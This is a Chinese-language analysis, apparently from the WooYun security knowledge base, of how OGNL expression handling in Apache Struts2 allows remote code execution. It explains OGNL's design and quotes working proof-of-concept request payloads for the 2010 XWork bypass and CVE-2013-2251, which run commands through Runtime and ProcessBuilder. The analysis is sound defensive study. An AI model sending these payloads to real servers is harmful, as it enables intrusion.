

# OGNL 设计及使用不当造成的远程代码执行漏洞

2013/07/19 14:48 | [紫气东来](http://drops.wooyun.org/author/紫气东来 "由 紫气东来 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [运维安全](http://drops.wooyun.org/category/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8 "查看 运维安全 中的全部文章") | 占个座先 | 捐赠作者

我们可以把 OGNL 作为一个底层产品,它在功能实现中的设计缺陷,是如何能够被利用并远程执行恶意代码的,而不是完全在 struts2 这个产品的功能设计层面去讨论漏洞原由!

#### 什么是 OGNL?

OGNL 是 Object-Graph Navigation Language 的缩写，它是一种功能强大的表达式语言（Expression Language，简称为 EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。它使用相同的表达式去存取对象的属性。 OGNL 三要素：(以下部分摘抄互联网某处,我觉得说得好)

```
Ognl.setValue("department.name", user2, "dev");

System.out.println(user2.getDepartment().getName());

Ognl.setValue(Ognl.parseexpression_r("department.name"), context, user2, "otherDev");

System.out.println(user2.getDepartment().getName());

Ognl.setValue("department.name", user2, "dev");

System.out.println(user2.getDepartment().getName());

Ognl.setValue(Ognl.parseexpression_r("department.name"), context, user2, "otherDev");

System.out.println(user2.getDepartment().getName()); 
```

#### 1\. 表达式（Expression）

表达式是整个 OGNL 的核心，所有的 OGNL 操作都是针对表达式的解析后进行的。表达式会规定此次 OGNL 操作到底要干什么。我们可以看到，在上面的测试中，name、department.name 等都是表达式，表示取 name 或者 department 中的 name 的值。OGNL 支持很多类型的表达式，之后我们会看到更多。

#### 2\. 根对象（Root Object）

根对象可以理解为 OGNL 的操作对象。在表达式规定了“干什么”以后，你还需要指定到底“对谁干”。在上面的测试代码中，user 就是根对象。这就意味着，我们需要对 user 这个对象去取 name 这个属性的值（对 user 这个对象去设置其中的 department 中的 name 属性值）。

#### 3\. 上下文环境（Context）

有了表达式和根对象，我们实际上已经可以使用 OGNL 的基本功能。例如，根据表达式对根对象进行取值或者设值工作。不过实际上，在 OGNL 的内部，所有的操作都会在一个特定的环境中运行，这个环境就是 OGNL 的上下文环境（Context）。说得再明白一些，就是这个上下文环境（Context），将规定 OGNL 的操作“在哪里干”。 OGN L 的上下文环境是一个 Map 结构，称之为 OgnlContext。上面我们提到的根对象（Root Object），事实上也会被加入到上下文环境中去，并且这将作为一个特殊的变量进行处理，具体就表现为针对根对象（Root Object）的存取操作的表达式是不需要增加#符号进行区分的。

Struts 2 中的 OGNL Context 实现者为 ActionContext，它结构示意图如下:



当 Struts2 接受一个请求时，会迅速创建 ActionContext，ValueStack，action 。然后把 action 存放进 ValueStack，所以 action 的实例变量可以被 OGNL 访问

那 struts2 引入 OGNL 到底用来干什么?

我们知道在 MVC 中,其实所有的工作就是在各层间做数据流转.

在 View 层的数据是单一的,只有不带数据类型的字符串.在没有框架的时代我们使用的是手动写代码或者像 struts1 一样利用反射,填充表单数据并转换到 Controller 层的对象中，反射转换成 java 数据类型的 commons 组件伪代码,如：

```
import javax.servlet.ServletException;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.beanutils.ConvertUtils;
import org.apache.commons.beanutils.PropertyUtils;

//自动装载表单及验证
public class LoadForm {
    //表单装载
    public static Object parseRequest(HttpServletRequest request,HttpServletResponse response,Object bean) throws ServletException, IOException{
           //取得所有参数列表
           Enumeration<?> enums = request.getParameterNames();
           //遍历所有参数列表
           while(enums.hasMoreElements()){
            Object obj = enums.nextElement();
            try {
             //取得这个参数在 Bean 中的数据类开
             Class<?> cls = PropertyUtils.getPropertyType(bean, obj.toString());
             //把相应的数据转换成对应的数据类型
             Object beanValue = ConvertUtils.convert(request.getParameter(obj.toString()), cls);
             //填充 Bean 值
             PropertyUtils.setProperty(bean, obj.toString(), beanValue);
            } catch (Exception e) {
                //不显示异常 e.printStackTrace();
            }
           }
           return bean;
        }   
    } 
```

从 Controller 层到 View 层,还是手动写代码然后到页面上取,如伪代码:

```
request.setAttribute("xxx", "xxx"); 
```

而 Struts2 采纳了 XWork 的一套完美方案(Xwork 提供了很多核心功能：前端拦截机（interceptor），运行时表单属性验证，类型转换，强大的表达式语言（OGNL – the Object Graph Navigation Language），IoC（Inversion of Control 反转控制）容器等). 并在此基础上构建一套所谓完美的机制,OGNL 方案和 OGNLValueStack 机制.

View 层到 Controller 层自动转储;然后是 Controller 层到 View 层,我们可以使用简易的表达式取对象数据显示到页面,如: ${对象.属性},节省不少代码时间且使用方便.而它的存储结构就是一棵对象，这里我们可以把对象树当成一个 java 对象寄存器，可以方便添加、访问对象等。 但是 OGNL 的这些功能或机制是危险的.

我们列举一下表达式功能操作清单：

```
1\. 基本对象树的访问
对象树的访问就是通过使用点号将对象的引用串联起来进行。
例如：xxxx，xxxx.xxxx，xxxx. xxxx. xxxx. xxxx. xxxx

2\. 对容器变量的访问
对容器变量的访问，通过#符号加上表达式进行。
例如：#xxxx，#xxxx. xxxx，#xxxx.xxxxx. xxxx. xxxx. xxxx

3\. 使用操作符号
OGNL 表达式中能使用的操作符基本跟 Java 里的操作符一样，除了能使用 +, -, *, /, ++, --, ==, !=, = 等操作符之外，还能使用 mod, in, not in 等。

4\. 容器、数组、对象
OGNL 支持对数组和 ArrayList 等容器的顺序访问：例如：group.users[0]
同时，OGNL 支持对 Map 的按键值查找：
例如：#session['mySessionPropKey']
不仅如此，OGNL 还支持容器的构造的表达式：
例如：{"green", "red", "blue"}构造一个 List，#{"key1" : "value1", "key2" : "value2", "key3" : "value3"}构造一个 Map
你也可以通过任意类对象的构造函数进行对象新建：
例如：new Java.net.URL("xxxxxx/")

5\. 对静态方法或变量的访问
要引用类的静态方法和字段，他们的表达方式是一样的@class@member 或者@class@method(args)：
例如：@com.javaeye.core.Resource@ENABLE，@com.javaeye.core.Resource@getAllResources

6\. 方法调用
直接通过类似 Java 的方法调用方式进行，你甚至可以传递参数：
例如：user.getName()，group.users.size()，group.containsUser(#requestUser)

7\. 投影和选择
OGNL 支持类似数据库中的投影（projection） 和选择（selection）。
投影就是选出集合中每个元素的相同属性组成新的集合，类似于关系数据库的字段操作。投影操作语法为 collection.{XXX}，其中 XXX 是这个集合中每个元素的公共属性。
例如：group.userList.{username}将获得某个 group 中的所有 user 的 name 的列表。
选择就是过滤满足 selection 条件的集合元素，类似于关系数据库的纪录操作。选择操作的语法为：collection.{X YYY}，其中 X 是一个选择操作符，后面则是选择用的逻辑表达式。而选择操作符有三种：
? 选择满足条件的所有元素
^ 选择满足条件的第一个元素
$ 选择满足条件的最后一个元素
例如：group.userList.{? #txxx.xxx != null}将获得某个 group 中 user 的 name 不为空的 user 的列表。 
```

结合之前的漏洞 POC,只举两例漏洞说明本质问题所在(其他类似,如:安全限制绕过,非必要使用 OGNL 或奇葩地利用 OGNL 实现设计功能等).那么只要 struts2 的某些功能使用了 OGNL 功能,且外部参数传入 OGNL 流程的,理论上都是能够执行恶意代码的.

参照之前的 PoC 从“表达式功能操作清单”中选取“危险项清单”,一些危险的功能操作,问题就出现在它们身上，提供了比较有危害 PoC 的构造条件:

```
1\. 基本对象树的访问
对象树的访问就是通过使用点号将对象的引用串联起来进行。
例如：xxxx，xxxx.xxxx，xxxx. xxxx. xxxx. xxxx. xxxx

2\. 对容器变量的访问
对容器变量的访问，通过#符号加上表达式进行。
例如：#xxxx，#xxxx. xxxx，#xxxx.xxxxx. xxxx. xxxx. xxxx

3\. 容器、数组、对象
OGNL 支持对数组和 ArrayList 等容器的顺序访问：例如：group.users[0]
同时，OGNL 支持对 Map 的按键值查找：
例如：#session['mySessionPropKey']
不仅如此，OGNL 还支持容器的构造的表达式：
例如：{"green", "red", "blue"}构造一个 List，#{"key1" : "value1", "key2" : "value2", "key3" : "value3"}构造一个 Map
你也可以通过任意类对象的构造函数进行对象新建：
例如：new Java.net.URL("xxxxxx/")

4\. 对静态方法或变量的访问
要引用类的静态方法和字段，他们的表达方式是一样的@class@member 或者@class@method(args)：
例如：@com.javaeye.core.Resource@ENABLE，@com.javaeye.core.Resource@getAllResources

5\. 方法调用
直接通过类似 Java 的方法调用方式进行，你甚至可以传递参数：
例如：user.getName()，group.users.size()，group.containsUser(#requestUser) 
```

以及上下文环境和这个 struts2 设计，当 Struts2 接受一个请求时，会迅速创建 ActionContext，ValueStack，action 。然后把 action 存放进 ValueStack，所以 action 的实例变量可以被 OGNL 访问。

第一个,是 2010 年 7 月 14 号(亮点 1:乌云好象就是这天出生的吧?),"Struts2/XWork < 2.2.0 远程执行任意代码漏洞",POC:

```
?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&amp;(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&amp;(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1 
```

也就是这个经典的 POC,大家开始第一次认识 struts2 漏洞(之前也有，只是那时很少有人去关注,或许很容易就能找到一个 0day(而且是永远的 0day,回溯一下框架历史,我不能再提示了!)。 myibatis 框架也有引入 OGNL 的,亲!

由于 ONGL 的调用可以通过 http 传参来执行，为了防止攻击者以此来调用任意方法，Xwork 设置了两个参数来进行防护：

```
OgnlContext 的属性 'xwork.MethodAccessor.denyMethodExecution'（默认为真）
SecurityMemberAccess 私有字段'allowStaticMethodAccess'（默认为假） 
```

(这里我现在还没想明白,既然都有这步限制了?为什么后面的那些还会出现,难道官方只会看着公布的 PoC 打补丁?)

这里大家都知道,是使用#限制 OgnlContext 'xwork.MethodAccessor.denyMethodExecution'和'allowStaticMethodAccess'上下文访问以及静态方法调用的值设置.而漏洞作者使用十六进制编码绕过了限制,从而调用@java.lang.Runtime@getRuntime()这个静态方法执行命令.

```
java.lang.Runtime.getRuntime().exit(1) （终止当前正在运行的 Java 虚拟机） 
```

在某些 struts2 漏洞中已经开始改变这个观念,因为我们很难再绕过上面的安全限制了.去调用上下文的属性及静态方法执行恶意 java 代码.

但是"危险清单"中还有一个可以利用,OGNL 表达式中居然可以去 new 一个 java 对象(见危险项清单 3.),对于构造 PoC 足够用了，而不需要上面那些条件.(之前也有类似的相关漏洞,我发现官方并不喜欢做代码审计的)

Apache Struts CVE-2013-2251 Multiple Remote Command Execution Vulnerabilities

这里漏洞原理大致是这样,作者一共提供了三个 PoC:

```
http://www.example.com/struts2-blank/example/X.action?action:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()} (这个和后面两个是有点区别的，多测试目标时你会发现！)

http://www.example.com/struts2-showcase/employee/save.action?redirect:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()}

http://www.example.com/struts2-showcase/employee/save.action?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()}

action:
redirect:
redirectAction: 
```

这三关键字是 struts2 设计出来做短地址导航的,但它奇葩地方在于,如：redirectAction:${恶意代码}后面可以跟 OGNL 表达式执行,找这种相关的漏洞很好找（如果还有）,查看 struts2 源代码${},%{}等(struts2 只认定这些特征的代码进入 OGNL 表达式执行流程)，struts2 执行 ognl 表达式的实现功能的地方.

而 java.lang.ProcessBuilder 是另外一个可以执行命令的 java 基础类,还有后面大家手中的 PoC(new 文件操作及输入输出流相关危险类等),此时我们发现只要 new 对象然后调用其方法就可以了.不再需要上面的一些静态方法等.

这里只能将 OGNL 和 struts2 各打 50 大板了!

**Tags:** [OGNL](http://drops.wooyun.org/tag/ognl), [远程代码执行](http://drops.wooyun.org/tag/%e8%bf%9c%e7%a8%8b%e4%bb%a3%e7%a0%81%e6%89%a7%e8%a1%8c)

版权声明：未经授权禁止转载 [紫气东来](http://drops.wooyun.org/author/紫气东来 "由 紫气东来 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [J2EE MVC 模式框架中,表单数据绑定功能不安全实现在 Tomcat 下造成的 DoS 及 RCE](http://drops.wooyun.org/papers/1395)
*   [J2EE 远程代码执行那些事儿(框架层面)](http://drops.wooyun.org/papers/914)
*   [一次 app 抓包引发的 Android 分析（续）](http://drops.wooyun.org/tips/2986)
*   [基于 snmp 的反射攻击的理论及其实现](http://drops.wooyun.org/tips/2106)
*   [Spring 框架问题分析](http://drops.wooyun.org/tips/2892)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)